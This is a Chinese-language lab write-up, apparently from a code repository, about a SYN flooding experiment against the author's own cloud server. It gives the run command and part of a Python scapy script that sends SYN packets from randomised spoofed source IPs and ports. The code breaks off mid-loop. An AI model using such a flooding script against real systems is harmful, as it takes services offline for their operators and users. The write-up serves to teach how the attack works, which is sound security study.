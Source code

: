 客户端（本机，WSL）：

![image-20200519214921607](assets/image-20200519214921607.png)

## SYN Flooding

### 实验环境

-   Attacker: WSL，Ubuntu 20.04
-   Victim：Aliyun，Ubuntu 18.04

### 运行

使用命令

``` python
python syn-flooding.py -t <Target-IP> -p <Port> -c <Num-Message>
```

### 实验代码

实验代码使用python，依赖python爬虫库`scapy`，代码如下：

``` python
from sys import stdout
from scapy.all import *
from random import randint
from argparse import ArgumentParser


def randomIP():
    # 随机生成IP
	ip = ".".join(map(str, (randint(0, 255)for _ in range(4))))
	return ip


def randInt():
    # 随机生成端口号，窗口等
	x = randint(1000, 9000)
	return x


def SYN_Flood(dstIP, dstPort, counter):
	total = 0
	print ("Packets are sending ...")

	for x in range(0, counter):
		s_port = randInt()
		s_eq = randInt()
		w_indow = randInt()
		
```